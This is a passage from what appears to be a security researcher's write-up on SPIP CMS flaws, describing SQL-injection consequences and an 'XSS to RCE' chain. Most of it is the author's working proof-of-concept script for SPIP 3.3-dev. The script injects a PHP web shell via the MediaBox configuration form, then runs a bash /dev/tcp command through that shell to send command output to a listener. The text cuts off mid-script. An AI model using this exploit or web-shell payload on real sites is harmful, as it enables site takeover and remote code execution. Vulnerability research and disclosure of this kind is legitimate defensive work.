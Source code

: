 If the site uses SQLite, as explained earlier, it's an instant game-over as the attacker can retrieve password reset tokens.

If the site uses a regular SQL database, it's still possible to read the site secret key and forge evil payloads at many places. I won't give details here as it's not something they can really protect against. But if you need it someday, now you know it's doable! :)


## XSS to RCE

Any stored XSS that can be triggered without overcomplicated social engineering should also be considered as an "almost direct RCE".

1. Store your XSS payload
1. The XSS payload must:
    1. Verify that only webmestre / admins are targeted
    1. Make the async requests from the webmestre or admin session
    1. Create a new admin user
1. With the newly acquired admin account, upload a backdoored module

Here is the code I wrote something like 2 years ago to exploit the MediaBox issue through an XSS. The code is a bit messy but it works! :)

```html
<!DOCTYPE html>
<html>

<head>
  <meta charset="UTF-8">
  <title>PoC XSS to RCE Spip 3.3-dev</title>
</head>

<body>
  <script>
    fetch("ecrire/?exec=configurer_mediabox")
      .then(res => {
        return res.text();
      })
      .then(page => {
        console.log(page);
        page = page.replace(/(\r\n|\n|\r)/gm, "");
        forms = page.match(/<form.*?<\/form>/g);

        forms.forEach(form => {
          if (form.includes('action="/ecrire/?exec=configurer_mediabox"')) {
            form_configurer_mediabox = form;

          }
          console.log(form);
        });

        if (typeof form_configurer_mediabox == 'undefined') {
          alert("Exploit failed");
        }

        console.log(form_configurer_mediabox);
        dom = new DOMParser().parseFromString(form_configurer_mediabox, "text/html");
        form = new FormData(dom.forms[0]);
        payload = "\";//<?php if(isset($_GET['cmd'])) { system($_GET['cmd']); }?>";
        form.set("splash_width", form.get("splash_width") + payload);
        fetch("/ecrire/?exec=configurer_mediabox", {
          method: "POST",
          body: form
        });
        cmd = "bash -c 'id > /dev/tcp/127.0.0.1/8000'"
        fetch("/?cmd=" + cmd, {});
```